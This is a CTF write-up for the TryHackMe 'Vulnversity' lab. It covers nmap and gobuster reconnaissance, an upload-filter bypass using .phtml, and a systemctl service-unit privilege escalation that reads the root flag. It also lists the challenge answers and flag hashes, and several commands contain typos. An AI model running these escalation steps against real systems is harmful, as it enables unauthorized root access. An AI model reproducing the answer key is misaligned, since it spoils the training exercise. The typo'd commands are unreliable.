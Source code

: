 #Vulnversity

`export IP=10.10.212.126`

##Reconnaissance 
nmap flag			Description
`-sV`				Attempts to determine the version of the services running
`-p <x> or -p-`		Port scan for port <x> or scan all ports
`-Pn`				Disable host discovery and just scan for open ports
`-A`				Enables OS and version detection, executes in-build scripts for further enumeration 
`-sC`				Scan with the default nmap scripts
`-v`				Verbose mode
`-sU`				UDP port scan
`-sS`				TCP SYN port scan

###nmap scan
`nmap -sC -sV -oN nmap/initial $IP -v`

2) 	
Scan the box, how many ports are open?
`6`

3) 	
What version of the squid proxy is running on the machine?
`3.5.12`

4) 	
How many ports will nmap scan if the flag -p-400 was used?
`400`

5) 	
Using the nmap flag -n what will it not resolve?
`DNS`

6) 	
What is the most likely operating system this machine is running?
`Ubuntu`

7) 	
What port is the web server running on?
`3333`

8)
`nmap -p- -sC -sV -oN nmap/fullscan $IP -v`

##GoBuster

find many wordlists under /usr/share/wordlists.
Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

GoBuster flag			Description
`-e`					Print the full URLs in your console
`-u`					The target URL
`-w`					Path to your wordlist
`-U and -P`				Username and Password for Basic Auth
`-p <x>`				Proxy to use for requests
`-c <http cookies>`		Specify a cookie for simulating your auth

`gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan`
 	

What is the directory that has an upload form page?
`/internal/`

##Compromise the webserver 
1)
Try upload a few file types to the server, what common extension seems to be blocked?
`php`

3)
what extension is allowed?
![Burp Reuslts](https://github.com/tigercub-co/TryHackMe/blob/master/Vulnversity/images/Burp_Output.png)
Format: ![Alt Text](https://github.com/tigercub-co/TryHackMe/blob/master/Vulnversity/images/Burp_Output.png)
`.phtml`

5)
What is the name of the user who manages the webserver? `ps-aux`
`bill`

6)
What is the user flag?
`8bd7992fbe8a6ad22a63361004cfcedb`

##Privilege Escalation
`find / -pem 400 2>dev/null | grep -v "permission denied"`

1)
What file stands out?
`/bin/systemctl`

searching GTFO bins gtfobins.github.io for systemctl errors you get the following

2) 	
Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
Become root and get the last flag (/root/root.txt)

`
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
`

`
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
`

`a58ff8579f0a9270368d33a9966c7fd5`
